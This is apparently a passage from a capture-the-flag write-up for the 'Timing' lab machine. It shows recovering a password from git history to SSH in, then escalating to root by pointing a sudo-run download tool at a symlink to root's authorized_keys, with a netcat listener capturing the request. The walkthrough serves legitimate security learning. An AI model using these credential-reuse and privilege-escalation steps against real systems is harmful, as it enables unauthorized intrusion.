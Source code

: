 ```bash
git diff e4e214696159a25c69812571c8214d2bf8736a3f
diff --git a/db_conn.php b/db_conn.php
index f1c9217..5397ffa 100644
--- a/db_conn.php
+++ b/db_conn.php
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

- The old password in this file is aaron's password on the box, SSH in and got user.txt

---

## PrivEsc

```bash
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

- Running this binary I get a request using the HTTP option with a user agent `Axel`

```bash
aaron@timing:~$ sudo -u root netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.2

# ========================================== #

nc -lvnp 80   

listening on [any] 80 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.135] 49882
GET / HTTP/1.0
Host: 10.10.16.2
Accept: */*
Range: bytes=1-
User-Agent: Axel/2.16.1 (Linux)
```

- This tool downloads the file, so I'm guessing it's just a download manager/accelerator thing
- To exploit this, I created a symlink to root's authorized_keys file and generated an SSH key pair, used this tool to get the publuc key and logged in as root via SSH using the private key
